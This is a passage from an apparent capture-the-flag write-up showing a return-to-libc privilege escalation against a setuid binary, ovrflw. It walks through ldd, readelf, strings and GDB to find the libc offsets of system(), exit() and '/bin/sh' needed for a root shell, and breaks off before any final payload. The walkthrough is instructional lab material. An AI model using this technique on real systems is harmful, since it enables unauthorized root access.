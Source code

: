 Notice how `GNU_STACK` is not executable since it doesn't have the `X` flag enabled. This means that if we overflow the stack, we will not be able to execute code from within our buffer.
We can overcome this with a trick known as **return to libc** where we can jump to a memory address in libc and supply the necessary arguments.

For this scenario, I needed to run `system("/bin/sh")` to get a root shell. The call to `system()` is located in `/lib/i386-linux-gnu/libc.so.6` which is dynamically linked to the executable.
We can check which shared object files are dynamically linked to `/usr/local/bin/ovrflw` with the following command:

```none
$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77be000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7604000)
        /lib/ld-linux.so.2 (0x800ae000)
```

We also need to find the offsets in `/lib/i386-linux-gnu/libc.so.6` that point to the `system()` and `exit()` functions with the command below:

```none
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "(system|exit)@"              
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   554: 000b84f4    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e5f0    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128b50    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  1492: 000fb480    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fbff0     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```

Here, we can see that the calls to `exit()` and `system()` are located at offsets `0x00033260` and `0x00040310` in `/lib/i386-linux-gnu/libc.so.6` respectively.

Next, we need to find a string that points to a shell since we cannot provide on in our overflow buffer. We can find such strings in `/lib/i386-linux-gnu/libc.so.6`:

```none
data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/"
 162bac /bin/sh
 164b10 /bin/csh
```

As seen above, `/bin/sh` is located at offset 0x162bac in `/lib/i386-linux-gnu/libc.so.6`.

We can also search for `/bin/sh` with GDB:

```none
$ gdb -q /usr/local/bin/ovrflw
Reading symbols from /usr/local/bin/ovrflw...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048480
(gdb) run
Starting program: /usr/local/bin/ovrflw

Breakpoint 1, 0x08048480 in main ()
(gdb) info proc map
process 1813
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /usr/local/bin/ovrflw
         0x8049000  0x804a000     0x1000        0x0 /usr/local/bin/ovrflw
         0x804a000  0x804b000     0x1000     0x1000 /usr/local/bin/ovrflw
```
